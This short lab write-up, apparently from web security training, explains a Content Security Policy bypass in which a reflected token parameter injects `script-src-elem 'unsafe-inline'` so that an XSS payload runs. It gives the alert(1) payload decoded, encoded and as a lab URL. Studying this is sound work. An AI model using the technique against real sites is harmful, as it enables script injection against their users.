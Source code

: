 The injection uses the `script-src-elem` directive in CSP. This directive allows you to target just `script` elements. Using this directive, you can overwrite existing `script-src` rules enabling you to inject `unsafe-inline`, which allows you to use inline scripts.

Payload (HTML decoded)
```javascript
?search=<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'
```

Payload (encoded)
```javascript
?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27
```

**Workflow**:
1. ![](Pasted%20image%2020250308033454.png)
2. ![](Pasted%20image%2020250308033722.png)
3. bypassing the CSP by injecting our desired CSP in the token parameter(thus we can control it). This will be accomplished injecting `script-src-elem`  which overwrites existing `script-src` rules and enabling us to inject `unsafe-inline`, which will give us permission to use inline scripts.
```html
https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27
```
